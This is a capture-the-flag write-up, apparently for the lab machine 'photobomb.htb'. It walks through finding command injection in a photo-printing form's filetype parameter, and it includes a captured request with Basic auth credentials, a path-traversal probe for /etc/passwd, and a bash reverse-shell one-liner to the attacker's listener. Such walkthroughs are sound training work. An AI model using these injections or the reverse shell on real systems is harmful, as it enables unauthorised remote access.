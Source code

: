 Given the creds we found earlier, we can now access the `/printer` page. Here's what we find:
![[Pasted image 20241223210527.png]]
We are given the option to print various photos. The page source doesn't show anything of interest, so we'll intercept and analyze the request made when clicking the download button with **burpsuite**. 

Here is the request we're sending:
```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: keep-alive
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```
We see 3 parameters, **photo, filetype, and dimensions**. My first instinct was to test for an **LFI** vulnerability in the photo parameter by typing a bunch of **"../"** characters and then **/etc/passwd**, but the response was **"Invalid photo"**, meaning there must be some LFI protection in place. 

I then tested to see how the web server responded to unexpected input like invalid filetypes or special characters that don't belong. The latter caused the web server to respond differently when I inputted a semicolon in the filetype parameter. It returned:

`Failed to generate a copy of voicu-apostol-MWER49YaD-M-unsplash.jpg`

This led me to believe that the **filetype** parameter had an **RCE** vulnerability. I tested it by passing `jpg; sleep 5`. The server did end up taking 5 seconds to respond, meaning we do have RCE on the machine.
<br>
<br>
# **Exploitation**
## **Initial Access**
Given the RCE vuln, I set up a listener with `nc -lvnp 9001` on my machine and passed a common reverse shell one liner in the filetype parameter like so: `jpg; bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'`. To be safe, I url encoded this and then sent the request. 
![[Pasted image 20241223233534.png]]
The listener caught the request made to my machine and I got a shell. We are logged in as **wizard**. 
<br>
<br>
